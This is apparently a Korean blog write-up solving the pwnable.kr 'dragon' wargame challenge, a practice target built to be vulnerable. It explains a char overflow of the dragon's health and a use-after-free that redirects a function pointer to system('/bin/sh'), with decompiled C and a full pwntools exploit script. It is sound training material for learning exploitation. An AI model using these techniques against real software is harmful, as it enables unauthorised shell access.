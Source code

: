 ```yaml
---
layout: post
title: "pwnable.kr - dragon"
date: 2018-11-09
excerpt: "Char overflow + UAF"
tags: [write-up]
comments: true
---
```

쉬운 문제이니 바로 Exploit을 설명하겠습니다.

### Exploit

- dragon의 체력은 character 형이기 때문에 127을 넘어가면 overflow로 인해 음수 값을 갖게 됩니다.

- Mama Dragon의 체력이 80이기 때문에, Priest를 선택하고 4번을 버티면 체력이 127을 넘어가 이길 수 있습니다.

- dragon의 체력이 0 이하로 내려가면 dragon은 free 됩니다.

```c
.
.
while ( *(dragon + 8) > 0 );                  // dragon health
free(dragon);

return 1;
```

- 이후 malloc(0x10)을 한 위치에 scanf로 입력을 받게 되는데, bin list에는 dragon이 들어가있기 때문에 dragon 위치에 malloc됩니다.
```c
if ( v3 )
  {
    puts("Well Done Hero! You Killed The Dragon!");
    puts("The World Will Remember You As:");
    v2 = malloc(0x10u);
    __isoc99_scanf("%16s", v2);
    puts("And The Dragon You Have Defeated Was Called:");
    (*dragon)(dragon);
  }
```
- (*dragon)(dragon)에 의해 UAF가 발생해 name으로 입력한 값을 실행하게 되는데, 여기서 SecretLevel의 주소를 입력해 쉘 취득이 가능합니다.

- SecretLevel의 소스는 다음과 같습니다.
```c
unsigned int SecretLevel()
{
  char s1; // [esp+12h] [ebp-16h]
  unsigned int v2; // [esp+1Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  printf("Welcome to Secret Level!\nInput Password : ");
  __isoc99_scanf("%10s", &s1);
  if ( strcmp(&s1, "Nice_Try_But_The_Dragons_Won't_Let_You!") )
  {
    puts("Wrong!\n");
    exit(-1);
  }
  system("/bin/sh");
  return __readgsdword(0x14u) ^ v2;
}
```

- 10 바이트 입력을 받는데 "Nice_Try_But_The_Dragons_Won't_Let_You!"을 모두 입력할 수 없으므로
system("/bin/sh") 하는 위치로 바로 뛰어주면 됩니다.

exp.py
```python
from pwn import *

#p = process('./dragon')
p = remote('pwnable.kr', 9004)

p.sendline('1')
p.sendline('2')
p.sendline('2')

p.sendline('1')

for i in range(4):
	p.sendline('3')
	p.sendline('3')
	p.sendline('2')

p.sendline(p32(0x08048dbf))

p.interactive()
```

![shell](https://t1.daumcdn.net/cfile/tistory/99705B3A5BE4D25134)
